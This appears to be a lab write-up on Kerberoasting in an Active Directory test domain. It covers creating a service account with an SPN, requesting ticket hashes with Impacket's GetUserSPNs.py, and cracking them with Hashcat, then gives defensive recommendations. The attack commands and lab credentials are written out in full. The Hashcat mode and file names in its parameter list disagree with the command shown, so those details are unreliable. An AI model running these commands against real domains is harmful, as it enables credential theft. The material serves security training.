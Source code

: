 # Kerberoasting

## Configuring



1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open PowerShell as administrator and execute the following commands to create a user with the name `sa_admin` and set a SPN for it:

```
net user sa_admin Welcome123456! /add
setspn -A MSSQLsvc/DC03:1433 sa_admin
```

## Attacking

### How it works

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service.
>
> Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plaintext credentials
>
> Source: [https://attack.mitre.org/techniques/T1558/003/](https://attack.mitre.org/techniques/T1558/003/)

### Tools

* [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

### Executing the attack

1. Use the discovered credentials `john` and password `Welcome2022!` with [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket to Kerberoast all roastable users.

```
python3 /opt/impacket/examples/GetUserSPNs.py 'amsterdam.bank.local/john:Welcome2022!' -dc-ip 10.0.0.2 -target-domain bank.local -outputfile kerberoast.txt
cat kerberoast.txt
```

![](<../../.gitbook/assets/image (14).png>)

2\. We retrieved one hash. Lets crack it with Hashcat and use the passwordlist we created earlier during the passwordspray. The hashcat parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `kerberoasting.txt`
* Passwords list: `passwords.txt`
* Rule list: `-r rules.rule`

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule
```

![](<../../.gitbook/assets/image (34).png>)

We successfully cracked the password of the user `sa_admin`, the password is `Welcome123456!`

## Defending

### Recommendations

* Use [Group Managed Service Accounts or Managed Service Accounts.](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
* Limit the privileges of Service Accounts.
* Use strong passwords (atleast 32 characters) on service accounts.

### Detection



## References

{% embed url="https://attack.mitre.org/techniques/T1558/003/" %}

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}
